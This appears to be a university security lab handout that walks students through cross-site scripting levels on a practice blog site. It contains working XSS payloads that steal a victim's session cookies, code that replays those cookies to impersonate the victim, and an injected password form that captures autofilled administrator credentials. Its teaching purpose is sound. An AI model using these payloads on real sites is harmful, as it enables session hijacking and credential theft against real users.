Visit the site and click on a post. Scroll down to see the contents of the Comments section. Then, "View page source" to see the original HTML before it has been rendered. You should see two <script> tags that implement this section. The first tag includes a Javascript file the browser needs to download and the second tag invokes a function within that file to dynamically retrieve the comments for the blog post.
Inspect the Comments section of the page in Developer Tools and, under the "Elements" tab, see each comment section that has been added to the DOM after the client has executed the downloaded Javascript. Visit the "Sources" tab and bring up the Javascript file. The file implements the loadComments() function which defines two other functions: escapeHTML() and displayComments(). Examine escapeHTML() to see how it is attempting to perform HTML-encoding and identify the vulnerability.
In order to exploit the vulnerability, we need to examine the rest of the code. The first part of the loadComments() function performs the AJAX request which retrieves the comment data for the post via xhr.send(). It then parses the JSON response via JSON.parse()before calling displayComments() to construct the DOM (e.g. section) elements for each comment. Within displayComments(), a loop that iterates through the comments JSON is implemented. The function calls escapeHTML() to ensure no < or > characters are left unencoded. Answer the following question for your lab notebook.
- Which three fields of JSON are vulnerable to a cross-site scripting attack?
Submit a comment that leverages one of the fields to perform the alert(). Note that <script> tags created after the initial page load are not executed automatically and can not be used to solve the level
- Take a screenshot showing completion of the level that includes the level URL and your OdinId
stealing-cookies
Popping up alert() boxes might be fun, but if that's all one could do with XSS, it would be pretty lame. The ability for the adversary to execute arbitrary Javascript on the victim gives the adversary ownership of the victim's browser. In this level, we will craft an exploit that uses a cross-site script to exfiltrate a victim's HTTP cookie.
Exfiltration script
This level would ideally be solved via a stealthier form of exfiltration using a domain name and web site we control. For expediency, we will simply exfiltrate the cookie by tricking the victim to execute a script that posts it as a comment back onto the site. Consider the Javascript code below.
comment_xss = ''''<script>
document.addEventListener("DOMContentLoaded", function() {
document.forms[0].name.value = '<FMI>';
document.forms[0].email.value = '<FMI>@pdx.edu';
document.forms[0].postId.value = 1;
document.forms[0].csrf.value = document.getElementsByName('csrf')[0].value;
document.forms[0].comment.value = document.cookie;
document.forms[0].website.value = 'https://pdx.edu';
document.forms[0].submit();
});
</script>'''If injected onto a page that the victim loads, it registers an Event Listener that will force a victim to execute a function when the page is loaded. The script accesses the form on the blog post (document.forms[0]) and automatically fills out its fields. Notably, the script needs to:
- Access the CSRF token that has been supplied by the server and can be accessed in the DOM after the page has been loaded (e.g.
document.getElementsByName('csrf')[0].value) - Access the cookie that the victim used to access the site (e.g.
document.cookie). Note that this type of access would be disallowed if the cookie were set to beHttpOnly - Submit the form automatically (e.g.
document.forms[0].submit()). In this case, the comment will be submitted ontopostId=1.
Modify the script to fill in your own name and email in the fields of the form.
Upload exploit and test
Modify the prior try_post() function to post the exfiltration script as its comment. For this level, a victim periodically visits each blog post. Once the script has been placed into the comments, the victim's cookie will automatically be posted into the comment section of postId=1. Perform the post and pause for a minute. Then, bring up Developer Tools and visit the blog post. The comment you have uploaded should cause you to immediately submit a comment, forcing you to become a victim yourself and posting your cookie onto the site. Within Developer Tools, bring up the "Network" tab and click on the request.

- Take a screenshot of the headers showing all of the form data for your POST including your own exfiltrated cookie sent as a comment.
Solve the level
Along with the session cookie, the victim cookie also contains a secret cookie. The goal of the level is to steal both and then access the web site impersonating the victim by using the stolen cookies.
One way to solve the level is via the browser. We can access the blog post containing the victim's cookie and then stop the browser before it submits the comment. We could also disable Javascript before loading the page in order to get the cookie data. After obtaining the values, the level could then be solved by editing the cookie fields in our session via the browser's Developer Tools and accessing the site again.
Alternatively, we can grab the content of the blog post via Python, parse out the cookies, and then access the site with them. When accessing the comment, the exfiltrated cookies will be disclosed in a p element that is used to display comments in the format below:
<p>secret=gnP6...eM; session=JaUY...xa</p>The script below accesses the blog post and then searches for a <p> tag that has, in its text, the string 'secret'. Note that the search is done via regular expression (e.g. text=re.compile('secret')) so we must import re as part of our script. We then take the text contents and split it using the semicolon that separates the two cookie values, producing a list of strings. Run the code on the post and ensure that it produces the victim's cookies.
resp = s.get(post_url)
soup = BeautifulSoup(resp.text,'html.parser')
cookie_list = soup.find('p', text=re.compile('secret')).text.split(';')
print(cookie_list)In the Python requests package, we specify a session's cookies using a dictionary. From the array of key=value pairs that the cookie_list provides, we can split each pair using the = character, then set cookie_dict['key'] to 'value'. We then use the keyword argument cookies to attach the cookie_dict when accessing the site to solve the level.
cookie_dict = dict()
for cookie in cookie_list:
c = cookie.split('=')
cookie_dict[c[0]] = c[1]
print(cookie_dict)
resp = s.get(f'https://{site}',cookies=cookie_dict)- Take a screenshot showing completion of the level that includes the level URL and your OdinId
capturing-passwords
Password managers can be used to automatically fill-in form fields with stored usernames and passwords. Unfortunately, a site that contains a cross-site scripting vulnerability can be used to steal them in a similar manner as the prior level.
Inject form fields
As before, the comment field allows us to inject HTML that contains Javascript code. Use the code from the prior level to inject a comment that implements input elements for username and password fields.
comment_xss = '''<input name=username id=username>
<input type=password name=password>'''View the blog post to see the form in your posted comment.
Craft exploit using event handler
The <input> tag supports an onchange event handler that allows one to specify Javascript code to run when content is entered (as it would when the password is filled in). Consider the Javascript snippet below:
document.forms[0].email.value='<FMI>@pdx.edu';
document.forms[0].name.value='<FMI>';
document.forms[0].comment.value=username.value+':'+this.value;
document.forms[0].website='https://pdx.edu';
document.forms[0].submit();As before, it automatically fills in the form fields for comment submission and submits it. In this case, the script fills in the comment field with the content of the username element (username.value) and the content of the current element (this.value). When this script is associated with the password field's onchange handler, this.value will contain the contents of the password field that has changed. Modify the snippet to include your name and email, then create a comment_xss that invokes the script when the password field changes. Post the comment onto the site. Note that, unlike injecting Javascript within an HTML context, you are injecting into an attribute that can take Javascript code directly. Thus, you do not need to specify <script> tags as before, as shown below:
comment_xss =
'''<input name=username id=username>
<input type=password name=password
onchange="docuent.forms[0].email.value='wuchang@pdx.edu'; ... document.forms[0].submit();">'''Solve the level
Visit the blog post that you've uploaded your exploit to. The administrator for the site is programmed to visit the post with a password manager that automatically fills in form fields on the site labeled username and password (as we have crafted in our comment). Use the credentials to login and solve the level. Alternatively, the following snippet can be used to solve the level programmatically by parsing the blog post and performing the login.
resp = s.get(post_url)
soup = BeautifulSoup(resp.text,'html.parser')
credentials = soup.find('p', text=re.compile('administrator')).text.split(':')
print(credentials)
login_url = f'https://{site}/login'
resp = s.get(login_url)
soup = BeautifulSoup(resp.text,'html.parser')
csrf = soup.find('input', {'name':'csrf'}).get('value')
logindata = {
'csrf' : csrf,
'username' : 'administrator',
'password' : credentials[1]
}
resp = s.post(login_url, data=logindata)Note that the "victim" for the level periodically visits the site, but only fills in the first username, password field it comes across. If you have uploaded prior attempts that were incorrect, you will need to wait for the level to time-out and try again with the working exploit.
- Take a screenshot showing completion of the level that includes the level URL and your OdinId